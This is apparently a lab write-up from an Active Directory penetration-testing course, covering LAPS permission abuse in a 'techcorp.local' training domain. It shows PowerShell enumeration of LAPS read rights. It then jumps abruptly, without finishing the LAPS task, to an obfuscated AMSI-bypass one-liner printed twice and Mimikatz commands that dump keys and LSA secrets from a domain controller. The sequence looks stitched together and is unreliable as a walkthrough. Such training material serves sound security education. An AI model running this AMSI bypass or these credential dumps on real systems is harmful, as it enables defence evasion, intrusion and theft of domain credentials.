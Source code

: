 # Credential Extraction

## LAPS (Local Administrator Password Solution) Abuse

### Lab: Hands-On #08

#### Tasks

- Identify OUs where LAPS is in use and user(s) who have permission to read passwords
- Abuse the permissions to get the clear text password(s)

#### Tools

- `InviShell`
- `ADModule` (alternative: `PowerView`)
- `Get-LapsPermissions`
- `AdmPwd.PS`
- `winrs` (alternative: `EnterPSSession`)

#### Solution

- Identify OUs where LAPS is in use and user(s) who have permission to read passwords

First, we need to find the OUs where LAPS is in use.
We can enumerate this using the ActiveDirectory module and LAPS module: let's use `Get-LAPSPermissions.ps1` PowerShell script for that.

**AD Module** + **LAPS Module**

```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
PS C:\AD\Tools> C:\AD\Tools\Get-LapsPermissions.ps1

Read Rights

organizationalUnit                     IdentityReference
------------------                     -----------------
OU=MailMgmt 📑,DC=us,DC=techcorp,DC=local US\studentusers 👥

Write Rights

OU=MailMgmt,DC=us,DC=techcorp,DC=local NT AUTHORITY\SELF
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'